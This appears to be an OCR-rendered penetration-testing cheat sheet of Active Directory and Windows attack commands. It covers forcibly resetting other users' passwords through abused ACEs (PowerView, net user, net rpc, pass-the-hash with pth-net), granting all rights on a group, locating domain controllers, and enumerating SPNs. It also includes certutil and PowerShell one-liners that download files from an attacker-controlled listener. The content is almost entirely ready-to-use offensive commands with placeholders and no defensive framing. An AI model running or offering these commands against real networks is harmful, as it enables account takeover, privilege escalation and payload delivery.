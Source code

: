 ## ACEs ForceChangePassword (PowerView)
```
Set-DomainUserPassword -Identity <username> -AccountPassword (ConvertTo-SecureString 'P@ssw0rd' -AsPlainText -Force) -Verbose
```

## ACEs ForceChangePassword (On Windows)
```
net user <username> P@ssw0rd /domain
```

## ACEs ForceChangePassword (On Kali, with password)
https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword
```
net rpc password <TargetUser> -U <domain>/<ControlledUser>%<Password> -S <DC>
```

## ACEs ForceChangePassword (On Kali, with hash)
```
pth-net rpc password <TargetUser> -U <domain>/<ControlledUser>%ffffffffffffffffffffffffffffffff:<nthash> -S <DC>
```

### ACEs add Rights
```
Add-DomainObjectAcl -TargetIdentity <GroupName> -PrincipalIdentity <Account> -Rights All
```

# Windows

## Find DC IP
```
nslookup -type=srv _ldap._tcp.dc._msdcs.<domain> <DNS>
```

## Windows Download file
```
certutil.exe -urlcache -f http://<listen_ip>:<listen_port>/<filename> <filename>
```

## Windows Download file (PowerShell)
```
iwr "http://<listen_ip>:<listen_port>/<filename>" -OutFile "<filename>"
```

## Enum SPN
```
setspn.exe -Q */*
```
